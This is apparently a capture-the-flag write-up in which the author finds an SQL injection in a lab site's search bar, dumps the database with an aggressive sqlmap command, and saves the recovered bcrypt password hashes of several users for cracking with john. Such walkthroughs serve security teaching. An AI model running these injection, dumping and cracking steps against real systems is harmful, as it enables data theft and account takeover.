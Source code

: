 We got a directory named `~webmaster/`, let's check it out:

![](gitbook/cybersecurity/images/Pasted%20image%2020250501133745.png)

If we click `credentials`, it redirects us to a `404` status code site, if go down on the website, we can see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250501133940.png)

We got a search bar and a login page, let's use the search bar to test `XSS` and `SQLI`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250501134143.png)

What about `SQLI`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250501134223.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020250501134235.png)

As we can see, there's an error in our SQL syntax, this is vulnerable to `SQLI`, let's submit the request to `sqlmap` and begin exploitation phase.

## EXPLOITATION

***

Let's save the request to a file and do the following `sqlmap` command:

```bash
sqlmap -r "$(pwd)/req.req" -p search --level=5 --risk=3 --threads=10 --dump
```

We will get some interesting tables:

![](gitbook/cybersecurity/images/Pasted%20image%2020250501135053.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020250501135102.png)

Got our first flag:

```
flag{Sm4rt!_k33P_d1gGIng}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250501135150.png)

We got some hashes, let's get them to a file and use john:

```
cat << 'EOF' > hashes.txt
prometheus:$2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C
root:$2y$10$lcs4XWc5yjVNsMb4CUBGJevEkIuWdZN3rsuKWHCc.FGtapBAfW.mK
zeus:$2y$10$cpJKDXh2wlAI5KlCsUaLCOnf0g5fiG0QSUS53zp/r0HMtaj6rT4lC
EOF
```
